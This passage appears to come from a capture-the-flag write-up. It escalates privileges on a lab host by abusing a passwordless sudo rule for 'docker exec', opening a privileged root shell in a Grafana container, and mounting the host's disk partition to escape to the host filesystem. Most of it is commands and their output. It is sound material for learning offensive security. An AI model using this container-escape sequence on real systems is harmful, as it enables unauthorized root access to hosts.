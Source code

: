 ```
User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```

This means we can execute Docker commands as root. Since we suspect Grafana is running in a Docker container, let's confirm its container name and gain access to it:

```bash
sudo docker exec -it grafana sh
```

Inside the container, we only have limited privileges. However, by using the privileged flag, we can execute commands as root within the container:

```bash
sudo docker exec -it --privileged -u root grafana sh
```

To escape the container and gain root access to the host system, we mount the host filesystem inside the container:

We can first check the disk partition that is mounted on the host system with this command (execute this on host):

```bash
mount | grep ext4
```

```
/dev/xvda1 on / type ext4 (rw,relatime,discard)
```

Now if we list the /dev directory inside the container, we can see xvda1 partition is there. Because we are root inside the container and the container runs as privileged, we can mount this host partition inside the container.

```bash
/usr/share/grafana # ls -l /dev
```

```
brw-rw----    1 root     disk      202,   0 Jan 30 21:06 xvda
brw-rw----    1 root     disk      202,   1 Jan 30 21:06 xvda1
```

Mount the disk:

```bash
mount /dev/xvda1 /mnt
cd /mnt
ls
```

```
bin             lib             root            usr
boot            lib64           run             var
dev             lost+found      sbin            vmlinuz
etc             media           snap            vmlinuz.old
home            mnt             srv
initrd.img      opt             sys
initrd.img.old  proc            tmp
```
